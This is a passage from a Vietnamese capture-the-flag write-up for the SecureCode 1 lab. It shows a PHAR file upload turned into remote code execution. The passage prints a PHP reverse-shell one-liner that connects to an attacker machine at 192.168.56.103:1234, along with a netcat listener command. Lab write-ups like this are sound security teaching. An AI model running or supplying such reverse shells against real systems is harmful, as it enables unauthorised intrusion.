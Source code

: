 <p><strong>Thực hiện:</strong></p>
<ul>
  <li>Upload <code>payload.phar</code> qua chức năng edit item.</li>
  <li>Truy cập: <code>http://192.168.56.101/item/image/payload.phar?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.56.103%22%2C1234%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27</code>.</li>
</ul>

<p><img src="/images/secureCode1/19.png" alt="Upload thành công" /><br>Upload file thành công</p>

<p><strong>Giải thích lệnh:</strong></p>
<pre><code>php -r '$sock=fsockopen("192.168.56.103",1234);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'</code></pre>
<ul>
  <li>Mở socket kết nối đến máy attacker (192.168.56.103:1234).</li>
  <li>Chạy shell tương tác, gửi stdin/stdout/stderr qua socket.</li>
</ul>

<p><strong>Kết quả:</strong></p>
<ul>
  <li>Dùng <code>nc -lvnp 1234</code> trên máy Kali để lắng nghe.</li>
  <li>Kết nối thành công và truy cập shell.</li>
</ul>

<p><img src="/images/secureCode1/20.png" alt="Kết nối shell" /><br>Kết nối shell thành công</p>
<p><img src="/images/secureCode1/21.png" alt="Shell hoạt động" /><br>Shell hoạt động</p>

<p><strong>Tìm flag:</strong> Dễ dàng tìm thấy thư mục chứa cờ.</p>
<p><img src="/images/secureCode1/22.png" alt="Flag" /><br>Flag của bài lab</p>

---

<h2>Kết luận</h2>
<ul>
  <li>Bài lab SecureCode 1 là một thử thách thú vị với hai lỗ hổng chính: <strong>SQL Injection</strong> và <strong>File Upload dẫn đến RCE</strong>.</li>
  <li><strong>Kinh nghiệm rút ra:</strong> Luôn kiểm tra kỹ mã nguồn, không bỏ qua các API ẩn, và ưu tiên whitelist thay vì blacklist khi lọc đầu vào.</li>
</ul>